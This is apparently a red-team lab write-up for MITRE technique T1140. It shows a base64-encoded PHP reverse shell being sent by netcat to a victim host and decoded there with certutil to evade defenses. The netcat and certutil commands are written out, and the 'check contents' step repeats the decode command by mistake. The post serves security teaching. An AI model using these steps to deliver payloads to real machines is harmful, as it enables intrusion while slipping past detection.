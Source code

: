 ```yaml
---
layout: post
title: "2024-06-18-t1140 encode decode data with certutil"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1140-encode-decode-data-with-certutil/
---
```


---
description: Defense Evasion
---

# Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from my attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode %}

Once the file is received on the victim, let's check its contents:

{% code title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode %}

![](../../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../../.gitbook/assets/certutil-decoded.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1140" %}

@spotheplanet
